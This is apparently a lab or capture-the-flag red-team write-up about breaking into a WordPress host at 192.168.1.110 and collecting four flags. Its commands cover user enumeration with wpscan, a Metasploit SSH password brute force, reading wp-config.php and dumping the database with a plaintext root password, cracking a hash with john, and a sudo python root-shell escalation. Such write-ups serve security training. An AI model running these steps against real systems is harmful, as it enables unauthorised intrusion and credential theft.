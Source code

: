 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
```
$ msfconsole
```
```
> search ssh_login
```
```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
```
$ grep -rnw / -e “flag1” 2> /dev/null
```

### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```

### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```

Note: flag4 is located here as well

### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
```
exit
```
```
echo "steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
john hash.txt
```
```
exit
```
```
ssh steven@192.168.1.110
```
```
sudo -l
```
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```



